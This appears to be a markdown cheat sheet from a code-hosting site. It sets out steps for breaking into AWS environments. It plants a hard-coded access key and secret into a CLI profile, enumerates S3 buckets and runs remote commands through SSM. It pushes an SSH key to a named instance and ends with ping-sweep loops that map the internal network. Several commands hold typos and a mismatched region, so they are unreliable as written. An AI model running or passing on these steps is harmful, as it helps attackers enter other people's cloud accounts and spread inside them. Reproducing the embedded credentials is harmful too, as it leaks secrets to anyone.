 # Gaining access to Instance
```
aws configure --profile Test
AWS Access Key ID [None]: AKIAIRYBX5NHQLRB52WQ
AWS Secret Access Key [None]: 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
Default region name [None]: us-west-2
```
# Upon adding the crednetail.next step is to enumerate
```

aws s3 ls --profile Test
aws s3 ls s3://file.resilient --profile Test
```

# If you have enough to have priviledge to utilize AWS Systems Manager Agent 
```
aws ssm describe-instance-information — profile Test

aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile Test
```
# Gaining access to vulerable Instance
```
apt-get isntall install ec2-instance-connect
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id i-0989ec8719613a4d9 --availability-zone us-west-2f --instance-os-user ec2-user --ssh-public-key file://My-Key.pub
ssh -i private.key ubuntu@54.211.12.132
```
# Upon Gaining access to Instance, Next Step is to enumerate the internal hosts and Services.
```
ifconfig or /sbin/ifconfig
for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done
for i in {1..254}; do (ping -c 1 192.168.1.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
ping6 -c4 -I eth0 ff02::1 | tee ipv6
```
